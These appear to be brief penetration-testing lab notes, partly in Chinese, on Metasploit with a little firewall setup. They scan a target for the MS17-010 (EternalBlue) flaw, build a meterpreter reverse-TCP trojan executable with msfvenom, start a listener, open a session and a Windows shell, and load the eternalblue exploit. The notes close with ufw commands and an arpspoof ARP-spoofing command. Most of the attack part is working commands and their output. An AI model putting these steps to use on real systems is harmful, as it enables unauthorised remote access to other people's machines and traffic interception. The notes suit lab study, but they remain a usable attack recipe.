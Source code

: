# msfconsole

```bash
msfconsole
# 进入控制台
```

search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 

# ufw

- apt update 
- apt -y install ufw 

\#install ufw 

- ufw enable 

\#turn on ufw 

- ufw allow 80 

\#open port 80 

- ufw status 

\#check the port open 

# arpspoof

```bash
apt install -y dsniff ssldump
```

```bash
arpspoof -i eth0 -t target -r host
```

